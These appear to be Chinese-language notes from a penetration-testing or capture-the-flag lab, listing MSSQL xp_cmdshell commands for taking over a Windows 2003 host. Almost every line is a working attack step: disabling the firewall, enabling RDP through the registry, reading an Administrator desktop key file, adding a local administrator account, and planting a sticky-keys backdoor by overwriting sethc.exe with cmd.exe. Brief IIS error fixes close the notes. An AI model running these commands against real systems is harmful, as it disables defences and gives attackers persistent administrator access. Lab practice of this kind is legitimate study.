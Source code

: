 点击运行：

2.关闭防火墙：

exec master..xp\_cmdshell 'netsh firewall set opmode mode=disable'

3.开3389：D:\安全工具\提权工具\开启3389\3389.bat:一行一行执行：

exec master..xp\_cmdshell 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG\_DWORD /d 00000000 /f'

4.查看管理员桌有什么文件：

exec master..xp\_cmdshell 'dir/a "C:\Documents and Settings\Administrator\桌面"'

key.txt

读第三个管理员桌面key:

1种.exec master..xp\_cmdshell 'type "C:\Documents and Settings\Administrator\桌面\key.txt"'

2种：

create table hyq\(line varchar\(5000\)\);

bulk insert hyq from 'C:\Documents and Settings\Administrator\桌面\key.txt';

select \* from hyq

3种：

exec master..xp\_cmdshell 'net user hyq666 123456 /add && net localgroup administrators hyq666 /add'

net改为net1

4.新题：shift后门：key:网上邻居

粘滞键：按五次shift--sethc.exe--》cmd.exe 进入桌面：system

a.exec master..xp\_cmdshell 'cd c:\windows\sysem32\ && attrib -s -h -r sethc.exe && copy cmd.exe sethc.exe '

b.mstsc:进行连接：按五次shift--cmd.exe-explorer.exe

net user administrator 123456



pte-2003:

出错：

1.我的电脑---右键--管理--服务和应用程序--iis---网站--默认：右键--属性--文档：添加：default.aspx

2.权限错误：按提示去改



